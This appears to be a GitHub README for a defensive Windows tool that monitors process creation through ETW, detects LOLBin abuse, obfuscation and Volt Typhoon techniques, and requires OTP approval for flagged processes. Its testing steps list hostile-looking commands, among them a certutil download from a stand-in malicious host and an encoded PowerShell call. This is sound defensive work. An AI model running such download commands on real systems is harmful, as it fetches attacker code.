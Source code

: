 # Usermode Application LOLBin Interceptor

## Overview
This project is a real-time security system for Windows that monitors process creation events, detects suspicious or malicious activity (such as LOLBin abuse, Volt Typhoon TTPs, and obfuscated commands), and enforces user or administrator validation via OTPs. It combines C++ (for ETW monitoring and process control) and Python (for advanced pattern-based detection).

---

## Architecture

### Main Components
- **C++ ETW Monitor (`usermodeapplicationlol.cpp`)**: Monitors process creation, checks for suspicious activity, and enforces OTP validation or process termination.
- **Python Analyzer (`analyze.py` + `detection/`)**: Analyzes process details for known malicious patterns, obfuscation, and advanced threat behaviors.
- **OTP Verification (`otpverify.exe`)**: Validates user/admin OTPs for process override.
- **Logging**: All actions and events are logged for auditing.

### Process & Dataflow Diagram
```mermaid
flowchart TD
    A["Process Creation (ETW Event)"] --> B{"Is LOLBin or Suspicious?"}
    B -- "No" --> C["Allow Process"]
    B -- "Yes" --> D["Call analyze.py"]
    D --> E{"Malicious?"}
    E -- "No" --> F["Resume/Allow Process"]
    E -- "Yes" --> G{"Is Admin?"}
    G -- "No" --> H["Terminate Process"]
    G -- "Yes" --> I["Prompt for 2 Admin OTPs"]
    I --> J{"Both OTPs Correct?"}
    J -- "Yes" --> F
    J -- "No" --> H
    %% Dataflow overlays
    A -.->|"Process Info"| D
    D -.->|"Exit Code"| E
    I -.->|"OTP"| J
```

---

## Features
- **Real-time process monitoring** using ETW.
- **LOLBins detection** (hardcoded list and pattern-based).
- **Volt Typhoon TTP detection** (pattern-based).
- **Obfuscation detection** (flags any obfuscated command as malicious).
- **OTP challenge** for suspicious/malicious processes.
- **Admin override**: Two distinct OTPs required for admin to allow a malicious process.
- **Comprehensive logging** for all events and actions.

---

## Setup & Build

### Prerequisites
- Windows 10/11 (Administrator privileges required)
- Visual Studio (for building C++ projects)
- Python 3.x (in PATH)

### Build Steps
1. Open `usermodeapplicationlol.sln` in Visual Studio.
2. Build both `usermodeapplicationlol` and `otpverify` projects.
3. Ensure `usermodeapplicationlol.exe` and `otpverify.exe` are in the same directory (or in PATH).
4. Ensure the following Python files are present:
    - `analyze.py`
    - `detection/lolbin_pattern_detector.py`
    - `detection/volt_typhoon_detector.py`
    - `lolbin_detector.py`

---

## How to Use

1. **Open a Command Prompt as Administrator.**
   - This is required for ETW monitoring and process control.

2. **Navigate to the directory containing `usermodeapplicationlol.exe`.**
   ```sh
   cd "D:/window driver projects/usermodeapplicationlol"
   ```

3. **Start the Monitor.**
   ```sh
   usermodeapplicationlol.exe
   ```
   - You should see output indicating the ETW monitor has started.

4. **Generate Test Events.**
   - In another terminal, run commands such as:
     - `cmd.exe /c whoami`
     - `powershell.exe -encodedcommand SQBtAG...`
     - `certutil.exe -urlcache -split -f http://malicious.site file.exe`
     - `notepad.exe` (should not be flagged)

5. **Respond to OTP Prompts.**
   - If a process is flagged as suspicious/malicious, you will see a GUI OTP prompt.
   - Enter the correct OTP (from your configured list) to allow the process, or fail to block it.
   - For admin override, you will be prompted for two distinct OTPs.

6. **Review Logs.**
   - Check `log_all.txt`, `log_otp_correct_malicious.txt`, and `log_otp_incorrect.txt` for details on detections and actions.

---

## Compiled Executable (x64/Release/usermodeapplicationlol.exe)

After building your project in Visual Studio (Release mode), the main executable will be located at:

```
x64/Release/usermodeapplicationlol.exe
```

- This is the optimized, production-ready version of your monitoring application.
- **Run this file as Administrator** to start the process monitoring system.
- If you use OTP verification, ensure `otpverify.exe` is also present in the same directory or in your system PATH.

### Best Practices for GitHub and Distribution
- **Do NOT commit this file or any other build artifacts to your GitHub repository.**
  - Executables and build outputs should be excluded using your `.gitignore` file.
  - Only source code, scripts, and documentation should be tracked in git.
- **Distribute binaries separately** (e.g., via a GitHub release, zip file, or installer) if you want to share the executable.
- Always build from source for each environment when possible.

---

## Testing
- Test with known LOLBins and obfuscated commands.
- Test benign processes to ensure they are not challenged.
- Review log files for detection and enforcement actions.

---

## Extending Detection
- Add new patterns to `lolbin_detector.py` and `volt_typhoon_detector.py` for emerging threats.
- Enhance obfuscation detection in `analyze.py` as needed.

---

## Security Notes
- Any obfuscated command is treated as malicious by default.
- Only administrators can override malicious verdicts, and only with two distinct OTPs.
- All process actions are logged for audit and review.

---

## ETW Trace Buffer Limitation

This system relies on ETW (Event Tracing for Windows) to monitor process creation events in real time. **If the ETW trace buffer becomes full (due to high event volume or slow processing), some events may be lost.** This can result in missed detections and enforcement actions.

### Impact
- Malicious or suspicious processes may not be detected if their creation events are dropped.
- The system may not be able to enforce OTP challenges or process termination for missed events.

### Mitigation Strategies
- **Increase ETW buffer size and count:** Configure larger and more buffers in the code to reduce the chance of overflow.
- **Optimize event processing:** Make the ETW callback as fast as possible; offload heavy work to worker threads.
- **Monitor for lost events:** Subscribe to ETW lost event notifications and log warnings if events are dropped.
- **Filter unnecessary events:** Only monitor the providers and event types you need.

For high-assurance environments, consider a kernel-mode driver for process monitoring, which does not suffer from ETW buffer overflow issues.

---

## License
This project is for educational and research purposes. Use responsibly. 